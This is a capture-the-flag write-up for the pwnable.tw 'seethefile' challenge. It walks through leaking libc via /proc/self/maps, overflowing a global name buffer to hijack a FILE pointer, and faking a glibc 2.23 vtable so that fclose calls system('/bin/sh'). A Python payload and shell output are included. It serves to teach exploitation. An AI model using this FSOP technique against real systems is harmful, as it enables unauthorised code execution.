

# seethefile (FSOP, vtable, fclose, glibc 2.23)

Notes:
- ASLR enabled
- binary given
- glibc 2.23

## Enumeration
In this task we are given a 32 bit, dynamicaly linked binary. 

```bash
$ file seethefile 
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped

$ checksec seethefile
[*] './seethefile'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The program itself let's user to perform basic operation on file:

```bash
$ ./seethefile 
#######################################################
   This is a simple program to open,read,write a file
   You can open what you want to see
   Can you read everything ?
#######################################################
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :1
What do you want to see :/etc/passwd
Open Successful
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :2
Read Successful
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spoo
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
```

As a user we can open, read and display content of a file. Let's check if we can just read `flag` file.

```bash
$ pwd
/home/k/pwnabletw/seethefile
$ echo "ctf{test_flag}" > flag
$ ./seethefile 
#######################################################
   This is a simple program to open,read,write a file
   You can open what you want to see
   Can you read everything ?
#######################################################
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :1
What do you want to see :/home/k/pwnable/seethefile/flag
Danger !
```

Ok, so we can't to that. There must be some kind of filtering going on in the program.

### Leaking libc_base
What else can we do before we look into the code? Well, let's check if we can open `proc/self/maps`:

```bash
$ ./seethefile 
#######################################################
   This is a simple program to open,read,write a file
   You can open what you want to see
   Can you read everything ?
#######################################################
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :1
What do you want to see :/proc/self/maps
Open Successful
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :2
Read Successful
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :3
08048000-0804a000 r-xp 00000000 103:02 5642393                           /home/k/pwnabletw/seethefile/seethefile
0804a000-0804b000 r--p 00001000 103:02 5642393                           /home/k/pwnabletw/seethefile/seethefile
0804b000-0804c000 rw-p 00002000 103:02 5642393                           /home/k/pwnabletw/seethefile/seethefile
083d5000-083f7000 rw-p 00000000 00:00 0                     
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :2
Read Successful
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :3
             [heap]
f7dca000-f7f9f000 r-xp 00000000 103:02 9306398                           /lib/i386-linux-gnu/libc-2.27.so
f7f9f000-f7fa0000 ---p 001d5000 103:02 9306398                           /lib/i386-linux-gnu/libc-2.27.so
f7fa0000-f7fa2000 r--p 001d5000 103:02 9306398                           /lib/i386-linux-gnu/libc-2.27.so
f7fa2000-f7fa3000 rw-p 001d7000 103:02 9306398               
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :
```

Nice! We just leaked libc_base address without even looking at deassembled code!

### RE
Nevertheless we should not skip as important part as reverse engineering and so let's reconstruct code with Ghidra. 

As always we start with main

```c
void main(void)
{
  int cmd;

  init(in_stack_ffffffc0);
  welcome();
  do {
    menu();
    scanf("%d", &cmd);
    switch(cmd) {
    default:
      puts("Invaild choice");
                    /* WARNING: Subroutine does not return */
      exit(0);
    case 1:
      openfile();
      break;
    case 2:
      readfile();
      break;
    case 3:
      writefile();
      break;
    case 4:
      closefile();
      break;
    case 5:
      printf("Leave your name :");
      scanf("%s", name);
      printf("Thank you %s ,see you next time\n",name);
      if (fp != (FILE *)0x0) {
        fclose(fp);
      }
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```

It is very easy to understand. It reads a command from user (number from one to 5) and performs relevant action. The interesting one seems to be number `5` (Exit):

```bash
$ ./seethefile 
#######################################################
   This is a simple program to open,read,write a file
   You can open what you want to see
   Can you read everything ?
#######################################################
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :5
Leave your name :Alice
Thank you Alice ,see you next time
```

### Buffer overflow
Why is it interesting? Well because right after program reads user name it closes file descriptior:

```c
char name[32];
FILE* fp;

void main(void) {
    [...]
    switch (cmd) {
        [...]
        case 5:
            printf("Leave your name :");
            scanf("%s", name); // <--- we read user name
            printf("Thank you %s ,see you next time\n",name);
            if (fp != (FILE *)0x0) {
                fclose(fp); // <--- we close file descriptor
            }
                            /* WARNING: Subroutine does not return */
            exit(0);
    } while( true );
}
```

and both `name` and `fp` are global variables. Moreover it seems that we have buffer overflow vulnerability as `scanf("%s", name)` has no limitation on number of characters read.

We can quickly confirm that:

```bash
$ ./seethefile 
#######################################################
   This is a simple program to open,read,write a file
   You can open what you want to see
   Can you read everything ?
#######################################################
---------------MENU---------------
  1. Open
  2. Read
  3. Write to screen
  4. Close
  5. Exit
----------------------------------
Your choice :5
Leave your name :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ,see you next time
Segmentation fault (core dumped)

$ sudo dmesg | tail -1
[ 2728.682355] seethefile[6265]: segfault at 41414187 ip 00000000f7de97e7 sp 00000000ff872df0 error 4 in libc-2.27.so[f7d84000+1d5000]
```

### Controlled FILE*
Segmentation fault! That's exactly what we wanted! It means that when we read `name` it overflows and overwrites FILE* fp pointer. And then we call `fclose(0x41414141)` and as 0x41414141 is not a valid address a program crashes.

## Exploit

### Setting dynamic linker to ld-2.23
Now it is a right time to patch our binary so it uses glibc 2.23. [Here](https://github.com/kscieslinski/CTF/tree/master/pwn/pwnabletw/dubblesort) you can read in details how to do it.
It is very important that our test binary uses a right version (2.23) of glibc as the vulnerability will be exploited inside libc. Moreover in libc 2.24+ the attack we will perform would be harder to perform as it introduces new protection mechanisms against FSOP (file stream oriented programming) exploitation.

### Core concepts
I've linked a very good materials in References section on how the attack works. Therefore I won't go into details.
The stuff we need to remember are:

1. FILE is kept as [_IO_FILE_plus](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L342). It consists of _IO_FILE and a pointer to vtable:

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```

The [_IO_FILE](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libio.h#L241) itself keeps all informations about a file:

```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  [...]
  _IO_lock_t *_lock;
};
```

But for us the only important will be _flags field. One can also use _lock field if she/he cannot control _flags field and (we will explain this later)

The second field of _IO_FILE_plus structure: const struct _IO_jump_t *vtable is a pointer to [virtual function table](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L307):

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

Anytime there is a fclose, fopen, fwrite, fread operation performed on a file it ends by calling one of a functions inside the vtable. For example if we call fread, _IO_xsgetn_t (vtable[8]) will be invoked.

### Faking _IO_FILE_plus
As we control FILE* fp pointer we can make it point to our `name` buffer and therefore we can fake struct _IO_FILE_plus structure. Of course this is possible as binary was not compiled as PIE and `name` is a global variable with address (0x0804b260). (FILE* fp is located at 0x0804b280, so just after a name buffer)

Let's try it out. This is how the memory layout will look like after we provide `A` * 32 + p32(name) as payload:


Note: small mistake on pic. there are 32, not 16 bytes between name and fp

### Exploit path
Now the question is what next. Our end goal is to spoof a vtable record (we don't know yet which one) and perform some function which will spawn us a shell (`system` is perfect here as we already know libc_base address).

As we already know that we want to spoof vtable we can include this on our schema. On a 32 bit system the vtable lies at 0x94 offset (on 64bit at 0xd8). Let's place the vtable right after the _IO_File_plus struct and fill it with  address of `system` function. Note that we calculate address of system dynamicaly so the constant 0xf7598940 is just an example:



Note: small mistake on pic. there are 32, not 16 bytes between name and fp

Let's check fclose implementation:

```c
#define fclose(fp) _IO_new_fclose (fp)

#define _IO_FINISH(FP) JUMP1 (__finish, FP, 0)
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

int _IO_new_fclose (_IO_FILE *fp)
{
 [...]
  /* First unlink the stream.  */
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp); // [1]

  _IO_acquire_lock (fp); // [2]
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    status = _IO_file_close_it (fp); // [3]
  else
    status = fp->_flags & _IO_ERR_SEEN ? -1 : 0;
  _IO_release_lock (fp);
  _IO_FINISH (fp); // [4]
  [...]
}
```

So the fclose does:
- [1] Deletes the structure from the linked list of file streams. I havn't mentioned this yet, but for every open file program allocates a FILE* struct and all those structs are kept inside a linked list. So when we close file we want to unlink this struct from a linked list.
- [2] As fdtable can be shared between multiple threads program needs to acquire lock.
- [3] Program flushes the stream buffer to make sure everything is written to the file.
- [4] Program calls close from vtable: fp->vtable[2](fp, 0) to close the file and release memory space

At this point there are at least two paths in order to spoof vtable record. One of them is via `_IO_file_close_it` (this path is explained [here](https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)) but I believe the easier one is via `_IO_FINISH`.

So we want to get to `_IO_FINISH` as quickly as possible. It is not that hard as we control _flag field (first 4 bytes of `name`).
We have to make sure that _IO_IS_FILEBUF is not set (to skip _IO_un_link and _IO_file_close_it). Moreover we have to deal with _IO_acquire_lock. We can either make sure _IO_USER_LOCK is set or we can just create a fake _IO_lock_t struct. We will pick the first option as it is quicker.

Let's modify the _flags field then. I've used this simple c program for this:

```c
#include <stdio.h>

int main() {
    int flags = 0x41414141;
    
    flags |= 0x8000;
    flags &= ~0x2000;

    printf("_flag: 0x%08x\n", flags);

    return 0;
}
```

Compile and run it:

```bash
$ gcc test.c -m32 -o test
$ ./test
_flag: 0x4141c141
```

And let's include it on our schema:


Note: small mistake on pic. there are 32, not 16 bytes between name and fp

Ok, so there is one last thing we have to deal with. We need to pass a '/bin/sh' argument to system call. At this moment the `system` is called as `system(b'\x41\x41\xc1\x41\x41..')` which for sure will not grant us a shell. Moreover we cannot just modify the argument to '\x41\x41\xc1\x41' as it is _flags field. But we can seperate the /bin/sh command by ';' character and fclose will invoke `system(b'\x41\x41\xc1\x41;/bin/sh')`.

Updated final schema:


Note: small mistake on pic. there are 32, not 16 bytes between name and fp

Let's try our exploit. We should get a shell!

```bash
$ python3 exp.py local
[+] Starting local process './patched': pid 17028
[*] [x] leaked content of /proc/self/maps
[*] [x] retrieved libc_base: 0xf7d57000 from leaked /proc/self/maps
[*] [x] calculated address of system function: 0xf7d91940
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ id
[*] Process './patched' stopped with exit code -11 (SIGSEGV) (pid 17028)
[*] Got EOF while sending in interactive
```

Oh, sth. went wrong. And this took me ages before I figured this out. It turns out that `_IO_new_fclose` checks at the beginning if it should use old implementation:

```
# define _IO_vtable_offset(THIS) (THIS)->_vtable_offset

_IO_new_fclose (_IO_FILE *fp)
{
  [..]
  /* We desperately try to help programs which are using streams in a
     strange way and mix old and new functions.  Detect old streams
     here.  */
  if (_IO_vtable_offset (fp) != 0)
    return _IO_old_fclose (fp);

  [...]  
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);
}
```

meaning that we have to set _vtable_offset field in _IO_File struct to 0.

Our final payload we provide as name:

```python
payload = b''
payload += pack('<L', FLAGS) # don't call _IO_close_it, we want to invoke  _IO_FINISH (fp) only;
payload += b';/bin/sh\x00'

# overwrite FILE* fp to point to NAME_BUF_ADDR
payload = payload.ljust(FP_OFST, b'A')
payload += p32(NAME_BUF_ADDR)

# set signed char _vtable_offset to 0, to use _IO_new_fclose
payload = payload.ljust(OLD_VTABLE_CHAR_OFST, b'A')
payload += b'\x00'

# overwrite _IO_jump_t *vtable
payload = payload.ljust(VTABLE_OFST, b'A')
payload += p32(NAME_BUF_ADDR + VTABLE_OFST + 0x4)

# fake _IO_jump_t, just fill the whole vtable with system_func_addr
payload += p32(system_func_addr) * 21
```

Let's test if it works:

```bash
$ python3 exp.py remote
[+] Opening connection to chall.pwnable.tw on port 10200: Done
[*] [x] leaked content of /proc/self/maps
[*] [x] retrieved libc_base: 0xf7570000 from leaked /proc/self/maps
[*] [x] calculated address of system function: 0xf75aa940
[*] Switching to interactive mode
$ id
uid=1000(seethefile) gid=1000(seethefile) groups=1000(seethefile)
```

[Full exploit](exp.py)


## References:
- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/
- https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf (lock explained, attack via _IO_file_close_it)
- https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L342